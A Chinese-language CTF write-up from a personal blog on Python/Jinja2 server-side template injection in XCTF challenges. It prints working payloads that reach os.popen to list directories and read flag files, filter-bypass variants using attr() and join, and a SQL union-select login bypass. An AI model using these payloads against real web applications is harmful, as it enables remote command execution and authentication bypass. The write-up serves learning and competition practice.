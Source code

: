```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - Web
  - SSTI
---
```

# 最基础的概念
这道题没有任何限制，just讲一下基本步骤
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了） 
  
这道题什么都没有过滤  
  
ls的payload:
```
{% raw %}{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}{% endraw %}
```
注意，在基类中，os所在的`site._Printer`不一定是第几个，这个题是第71个罢了。subclass可以看到所有类，慢慢找  
  
而且名字也不一定叫`site._Printer`，但长得差不多，比如校赛中的就叫`_sitebuiltins._Printer`，关键字就这么几个  
  
每个指令的作用：
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
`ls`查看的是当前目录，`ls /`查看的是根目录  
最后用`'cat fl4g'`读取文件
# 过滤了_ \[] ‘’ “”
XCTF mine1_1    
如果只过滤`[]`的话，payload长这样：
```
{% raw %}{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read(){% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
# 过滤了{% raw %}{{{% endraw %}
两个大括号连着一起会被检测，但是一个大括号莫得事  
所以我们可以用`{% assign openTag = '{%' %}{{ openTag }}print()%}`来代替
# 过滤了. +  and神一样的注入点
首先是一个sql注入，提示`login as admin`（wechall？梦开始的地方？）  
  
用户名输入`admin`密码随意，会返回登录页面，用户名随便会500  
  
  当输入`admin' union select 1,2,3,4 --`时会返回登陆页面（再次吐槽我矿ctf，order by被过滤，而且只有到4才成功，这真是运气），证明闭合了sql查询，没有登录成功，说明验证不是下面这个形式的：`select * from table where username=? and password=?`
  
  （更新一波：学长对不起！我脑子瓦特了。union select是强行写入数据，肯定要个数相等才能写入啊）
  
  之后猜到（没错，猜到，我矿ctf的传统）是分离验证并加了md5，并且密码字段是第三个  
  ```sql
  username=test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  ```
  登录成功，并看到了/info页面，改动info可以看到回显
  ![找到注入点](https://raw.githubusercontent.com/hideonsky/hideonsky.github.io/master/assets/images/SSTI/%E6%89%BE%E5%88%B0%E6%B3%A8%E5%85%A5%E7%82%B9.png)
  我们发现了两个可控的点，但是一个参数内同时出现`{% raw %}{}{% endraw %}`会被waf，所以我们把`{% raw %}{{% endraw %}`和`{% raw %}}{% endraw %}`分别放到两个参数里
  
  所以，真正的注入点是：
  ```sql
  {% raw %}username={{"test' union select 1,2,'21232f297a57a5a743894a0e4a801fc3',4 --
  password =admin
  url后面改为/啥都行"}}  {% endraw %}
  ```
  注意这个双引号，因为`{% raw %}{{}}}{% endraw %}`中间会有别的内容影响，用`""`包起来会被认为是字符串，就不会影响注入了  
  
  所以我们注入也是在`"`和`{% raw %}}}{% endraw %}`之间构造payload，避开其他字符的影响
  
  字符拼接本来应该是`attr('__c'+'lass__')`,因为过滤了`+`，所以用`join`拼接，即`attr(("_","_","cla","ss","_","_")|join)`  
  
  ls的payload：
  ```url
  {% raw %}"|attr(("_","_","cla","ss","_","_")|join)|attr(("_","_","ba","se","_","_")|join)|attr(("_","_","sub","cla","sses","_","_")|join)()|attr(("_","_","ge","titem","_","_")|join)(129)|attr(("_","_","in","it","_","_")|join)|attr(("_","_","glo","bals","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("_","_","buil","tins","_","_")|join)|attr(("_","_","ge","titem","_","_")|join)(("e","val")|join)(("_","_","imp","ort","_","_")|join)(("o","s")|join)|attr(("po","pen")|join)(("l","s")|join)|attr(("re","ad")|join)()}}{% endraw %}
  ```
  cat的时候改成`"ca","t"," ","fl","ag"`即可，空格别忘了  
  
  最后看一眼输出，和上面找注入点时相比，中间的字符串全没了，这就是上面说到的双引号的作用，真是神一样的注入点！
  ![出flag](https://raw.githubusercontent.com/hideonsky/hideonsky.github.io/master/assets/images/SSTI/%E5%87%BAflag.png)
# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天又用回了Jekyll  
  
这CTF打的，我渗透我自己  
解决办法{% assign openTag = '{%' %}
```
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}
```
那么奇奇怪怪的问题又增加了  
我是怎么打出来`{{ openTag }} raw %}`而没有被执行呢
```
{% raw %}{% assign openTag = '{%' %}
{{ openTag }} raw %}
小爷我要打无数个大括号
{{ openTag }} endraw %}{% endraw %}
```
打`{% raw %}{{ openTag }} raw %}{% endraw %}`的时候差点又忘了刚学的`{{ openTag }} raw %}`，吐了吐了
